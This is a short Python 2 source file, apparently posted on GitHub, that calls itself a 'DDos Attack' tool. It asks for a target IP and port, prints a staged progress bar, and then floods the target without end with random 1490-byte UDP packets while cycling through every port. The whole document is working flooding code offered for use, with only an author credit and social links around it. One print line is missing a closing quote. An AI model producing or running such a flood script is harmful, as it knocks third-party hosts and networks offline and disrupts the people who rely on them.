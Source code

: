 import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos Attack")
print
print "Author   : Rh king"
print "You Tube : https://www.youtube.com/cyber king"
print "github   : https://github.com/sojibmd
print "Facebook : https://www.facebook.com/cyber king/"
print
ip = raw_input("Rh ip Target : ")
port = input("Port       : ")

os.system("clear")
os.system("figlet Attack Starting")
print "[                    ] 0% "
time.sleep(5)
print "[=====               ] 25%"
time.sleep(5)
print "[==========          ] 50%"
time.sleep(5)
print "[===============     ] 75%"
time.sleep(5)
print "[====================] 100%"
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1

